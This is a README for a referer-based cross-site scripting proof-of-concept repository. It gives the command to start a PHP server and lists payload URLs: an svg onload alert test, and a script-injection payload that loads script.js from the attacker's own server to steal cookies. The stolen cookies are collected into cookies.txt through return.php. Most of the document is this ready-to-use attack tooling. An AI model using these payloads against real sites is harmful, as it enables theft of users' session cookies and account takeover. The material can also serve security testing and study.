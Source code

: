## Referer-based XSS PoC

### Starting the server

Start the server from the repo directory with:

```
php -S 0.0.0.0:80
```

### Example Payloads

for testing:

```
http://OUR_IP/index.php/<svg/onload=alert(document.domain)>?target=TARGET_URL
```

*Note: Replace OUR_IP and TARGET_URL as appropriate.*

or to steal cookies (replace OUR_IP in script.js first):

```
http://OUR_IP<script src=http://OUR_IP/script.js></script>?target=TARGET_URL
```

Code based on what's discussed at Geekboy's blog here:
https://www.geekboy.ninja/blog/exploiting-unusual-referer-based-xss/

Geekboy also set up a vulnerable server for testing as discussed in the blog entry linked above. This link will work as a test of our index.php file:

```
http://OUR_IP/index.php/<svg/onload=alert(document.domain)>?target=http://p0c.geekboy.ninja/rxss-demo.php
```

He set up a PoC here which is the same as index.php. You can click this link directly as is:
[http://p0c.geekboy.ninja/rxss.php/<svg/onload=alert(document.domain)>?target=http://p0c.geekboy.ninja/rxss-demo.php](http://p0c.geekboy.ninja/rxss.php/<svg/onload=alert(document.domain)>?target=http://p0c.geekboy.ninja/rxss-demo.php)


If cookies are stolen via script.js and return.php, they will be written to cookies.txt.

